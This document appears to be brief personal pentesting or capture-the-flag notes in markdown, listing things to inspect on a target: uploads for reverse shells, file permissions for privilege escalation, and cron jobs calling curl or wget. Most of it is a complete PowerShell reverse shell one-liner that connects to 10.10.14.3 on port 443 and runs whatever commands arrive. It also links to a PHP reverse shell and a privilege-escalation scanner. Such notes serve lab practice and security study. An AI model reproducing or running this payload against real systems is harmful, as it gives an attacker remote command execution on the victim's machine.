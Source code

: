 # MISC

Things to inspect

- **upload file** for possible reverse shell attack 

    current known script to reverse shell:
    - xp_cmdshell

    ```
    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
    ```
    - php, [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- **file permission** to escalate previlege
    
    scan with [linepeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).

- **unususal process** such as cron to do something (curl, wget) 